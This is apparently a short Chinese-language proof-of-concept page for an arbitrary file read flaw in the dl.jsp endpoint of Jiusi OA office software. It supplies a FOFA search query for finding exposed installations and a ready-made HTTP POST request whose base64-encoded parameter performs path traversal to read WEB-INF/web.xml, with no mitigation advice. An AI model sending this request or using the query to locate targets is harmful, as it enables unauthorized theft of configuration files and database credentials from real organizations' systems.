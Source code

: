# 九思OA接口dl.jsp任意文件读取漏洞

北京九思协同办公软件dl.jsp接口处存在任意文件读取漏洞，攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```javascript
body="/jsoa/login.jsp"
```

## poc

```javascript
POST /jsoa/dl.jsp?JkZpbGVOYW1lPS4uLy4uLy4uL1dFQi1JTkYvd2ViLnhtbCZwYXRoPS9h HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close
```

![image-20241114140239709](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411141402862.png)